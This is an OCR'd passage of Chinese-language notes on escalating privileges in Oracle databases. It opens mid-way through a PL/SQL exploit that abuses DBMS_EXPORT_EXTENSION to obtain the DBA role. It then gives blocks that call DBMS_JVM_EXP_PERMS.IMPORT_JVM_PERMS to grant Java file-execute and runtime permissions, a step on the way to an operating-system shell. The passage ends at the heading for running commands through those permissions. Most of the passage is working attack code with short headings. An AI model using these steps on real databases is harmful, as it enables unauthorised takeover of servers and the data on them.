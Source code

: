         INDEX_SCHEMA := '<DB_USERNAME>';
        TYPE_NAME := 'HACKERPACKAGE';
        TYPE_SCHEMA := '<DB_USERNAME>';
        VERSION := '10.2.0.1.0';
        GMFLAGS := 1;
        v_Return := SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_METADATA(INDEX_NAME =>
        INDEX_NAME,
        INDEX_SCHEMA=> INDEX_SCHEMA,
        TYPE_NAME => TYPE_NAME,
        TYPE_SCHEMA => TYPE_SCHEMA,
        VERSION => VERSION,
        NEWBLOCK => NEWBLOCK,
        GMFLAGS => GMFLAGS);
        END;
        /
        ```
    - 重新查看角色权限(已变成dba)
        select * from session_roles;

    
- 从 DBA 提权到系统 shell
    - 首先查看权限
        select * from session_privs;
    - CREATE SESSION权限提权到系统 shell
        - 获取 java 权限
            ```sql
            DECLARE
                POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
                CURSOR C1 IS SELECT 'GRANT', 'ZTZ', 'SYS', 'java.io.FilePermission', '<<ALL
            FILES>>', 'execute', 'ENABLED' FROM DUAL;
                BEGIN
                OPEN C1;
                FETCH C1 BULK COLLECT INTO POL;
                CLOSE C1;
                DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
                END;
            /
            ```
        - 获得java.lang.RuntimePermission权限
            ```sql
            DECLARE
                POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
                CURSOR C1 IS SELECT 'GRANT', USER(), 'SYS', 'java.lang.RuntimePermission',
            'writeFileDescriptor', 'NULL', 'ENABLED' FROM DUAL;
                BEGIN
                OPEN C1;
                FETCH C1 BULK COLLECT INTO POL;
                CLOSE C1;
                DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
                END;
            /
            DECLARE
                POL DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY;
                CURSOR C1 IS SELECT 'GRANT', USER(), 'SYS', 'java.lang.RuntimePermission',
            'readFileDescriptor', 'NULL', 'ENABLED' FROM DUAL;
                BEGIN
                OPEN C1;
                FETCH C1 BULK COLLECT INTO POL;
                CLOSE C1;
                DBMS_JVM_EXP_PERMS.IMPORT_JVM_PERMS(POL);
                END;
            /
            ```
        -  JAVA权限执行命令